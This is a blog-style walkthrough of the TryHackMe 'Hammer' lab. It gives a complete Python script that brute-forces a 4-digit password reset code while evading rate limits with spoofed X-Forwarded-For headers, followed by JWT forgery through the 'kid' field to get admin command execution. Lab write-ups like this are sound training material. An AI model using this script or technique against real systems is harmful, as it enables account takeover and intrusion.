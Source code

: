 ```yaml
---
title: "Hammer TryHackMe"
tags:
    - machine
    - THM
    - Auth Bypass
    - JWT
date: "2024-09-16"
thumbnail: "/assets/img/thumbnail/thumb.png"
bookmark: true
---
```

# Description
---
With the Hammer in hand, can you bypass the authentication mechanisms and get RCE on the system?
What is the flag value after logging in to the dashboard?.......
What is the content of the file /home/ubuntu/flag.txt?..........

# Enumeration
let's start with Nmap Scan:
```bash
$ nmap -sC -sV -Pn 10.10.49.135 -T4 -p 0-2000
Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-15 23:02 EEST
Nmap scan report for 10.10.49.135
Host is up (0.079s latency).
Not shown: 1999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 f51db1e6cc75df6abee39012e6b9126d (RSA)
|   256 1b7a2234ed1bff9ec3d13d5cf0b48bc8 (ECDSA)
|_  256 5a72ff3298127238088edc9652cef65c (ED25519)
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Login
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
``` 
Found two open ports:
1. 22 -> ssh
2. 1337 -> http

`http://10.10.49.135:1337/`, we get a login form.
Testing the form with default credentials, we get the message: `Invalid email address!`
<img src="/assets/img/hammer/1.png">
ok, let me look at the src code 
<img src="/assets/img/hammer/2.png">

nice,the developer forgot a note about directory naming -> `hmr_directory_name`
i love using `ffuf` for fuzzing :
```bash
$ ffuf -u http://10.10.49.135:1337/hmr_FUZZ -w /usr/share/wordlists/dirb/small.txt  -mc 200,301 -ac

[Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 81ms]
    * FUZZ: css
[Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 76ms]
    * FUZZ: images
[Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 108ms]
    * FUZZ: js
[Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 83ms]
    * FUZZ: logs
```
found `hmr_logs` has `error.logs` file let's open it 
<img src="/assets/img/hammer/3.png">

we discover an email address: `tester@hammer.thm`

# Bypassing the Rate Limit
---
Now that we discovered a valid email address, we can try to reset the password for the user at `http://10.10.63.156:1337/reset_password.php`
<img src="/assets/img/hammer/4.png">
4-digit recovery code ....!,So i can brute-force it easily 
let's send normal request with code -> 0000
<img src="/assets/img/hammer/5.png">

Oops there is a `Rate-Limit-Pending:9` header on response
If we continue to make requests in quick succession, we will see it decreasing
And when it reaches `zero`, we see that now we are getting `rate-limited`.
<img src="/assets/img/hammer/6.png">

now my mission is bypassing this rate limit so i added `X-Forwarded-For` header with value `127.0.0.1` , this make me bypass the limit 
<img src="/assets/img/hammer/7.png">
but again if the counter reaches zero, we will be once again rate-limited
<img src="/assets/img/hammer/8.png">

but what if i changed the provided ip like this -> `X-Forwarded-For :127.0.0.2`
now able to reset the counter again 
<img src="/assets/img/hammer/9.png">

# Brute Forcing Script
---
scripting time for brute-forcing the 4 digit code & bypassing the rate limit 
chat-gpt helped me to write this script:
```python 
import requests
import random
import threading
# Target URL
url = "http://10.10.49.135:1337/reset_password.php"

# Event flag to stop threads when the correct code is found
stop_flag = threading.Event()

# Number of threads to use
num_threads = 50

# Generate a random 'X-Forwarded-For' header in the form '127.0.$.$'
def random_ip():
    return f"127.0.{random.randint(0, 255)}.{random.randint(0, 255)}"

# Brute-force function executed by each thread
def brute_force_code(session, start, end):
    for code in range(start, end):
        code_str = f"{code:04d}"  # Format code as 4 digits
        try:
            response = session.post(
                url,
                data={"recovery_code": code_str, "s": "180"},  # 's' parameter is fixed
                headers={"X-Forwarded-For": random_ip()},  # Use random IP
                allow_redirects=False  # Disable redirects
            )
            
            if stop_flag.is_set():
                return  # Stop if the flag is set by another thread
            
            # Check if we hit a rate limit (status code 302 in this case)
            if response.status_code == 302:
                stop_flag.set()  # Stop all threads
                print("[-] Timeout reached. Try again.")
                return
            
            # Check for a successful recovery code (modify based on server's response)
            if "Invalid or expired recovery code!" not in response.text:
                stop_flag.set()
                print(f"[+] Found the recovery code: {code_str}")
                print("[+] Printing the response: ")
                print(response.text)
                return

        except Exception as e:
            pass  # Ignore exceptions for now

# Main function to handle multithreading and start the brute-force process
def main():
    session = requests.Session()

    # Sending the password reset request
    print("[+] Sending the password reset request.")
    session.post(url, data={"email": "tester@hammer.thm"})

    # Brute-forcing the recovery code
    print("[+] Starting the code brute-force.")
    code_range = 10000  # Range of 4-digit codes (0000-9999)
    step = code_range // num_threads
    threads = []

    # Create and start threads
    for i in range(num_threads):
        start = i * step
        end = start + step
        thread = threading.Thread(target=brute_force_code, args=(session, start, end))
        threads.append(thread)
        thread.start()

    # Wait for all threads to finish
    for thread in threads:
        thread.join()

if __name__ == "__main__":
    main()

```
run the script 
<img src="/assets/img/hammer/10.png">
I got the code , now I can reset the password to: 123456789
<img src="/assets/img/hammer/11.png">

I have credentials `tester@hammer.thm:123456789` let's login at `http://10.10.49.135:1337/` ,I get redirected to `http://10.10.63.156:1337/dashboard.php` where we get our first flag.
<img src="/assets/img/hammer/12.png">

# Key File
---
in the dashboard there is input `Enter Command` let's see the request on burp with command `ls`
<img src="/assets/img/hammer/13.png">

it gaves me list of files one of them called `188ade1.key` 
<img src="/assets/img/hammer/14.png">

if i tried another command it gaves me `Command not allowed`
So,what this key for? and how can i use it ??? huuh there is a jwt i think i can use this key at `Verify the SIGNATURE`
so let's go back to the burp and change the signature of the jwt 
<img src="/assets/img/hammer/15.png">

`invalid Token`
# JWT
---
let's analysis the jwt on JWT.io , i found that :
`kid` take a file-> can put 188ade1.key file
`role` is `user` -> can change it to admin
first let's pass the file to `kid` and it's content to signature
<img src="/assets/img/hammer/16.png">
here we go 
<img src="/assets/img/hammer/17.png">

now change the role to admin and send the request with `id` command
<img src="/assets/img/hammer/18.png">

Nice, now i can read the content of the file `/home/ubuntu/flag.txt`
<img src="/assets/img/hammer/19.png">
 Honestly, this was an awesome machine, and I learned a lot from it. I hope you enjoy this walkthrough!
